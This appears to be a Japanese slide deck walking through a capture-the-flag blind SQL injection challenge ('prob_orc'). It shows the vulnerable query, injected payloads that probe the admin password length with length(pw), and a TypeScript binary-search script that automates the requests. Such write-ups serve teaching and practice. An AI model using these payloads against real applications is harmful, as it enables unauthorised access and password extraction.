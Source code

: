 # どう解く？

## ポイント

以下が結果を返せれば、それを知ることが出来る

```sql
select id from prob_orc where id='admin' and pw='{$_get[pw]}'
```

---

# PW の長さ

## length()を使う

```sql
select id from prob_orc where id='admin' and pw='' or 1 < length(pw) and id='admin'
```

上記のクエリは id が admin で pw の長さが 1 より大きいならば行を返す

<div v-click>

```sql
select id from prob_orc where id='admin' and pw='' or 100 < length(pw) and id='admin'
```

上記のクエリは id が admin で pw の長さが 100 より大きくなければ行を返さない

</div>

<div v-click>
数値を変えていくことでPWの長さが得られる！！
</div>

---

# PW の長さ

<div>

```ts
let left = 0;
let right = 100;
while (left + 1 != right) {
    const val = Math.round((right - left) / 2) + left;
    if (
        judge(await sendRequest(`pw=' or length(pw) <= ${val} and id='admin`))
    ) {
        right = val;
    } else {
        left = val;
    }
}

const length = right;
console.log(`length=${length}`);
```
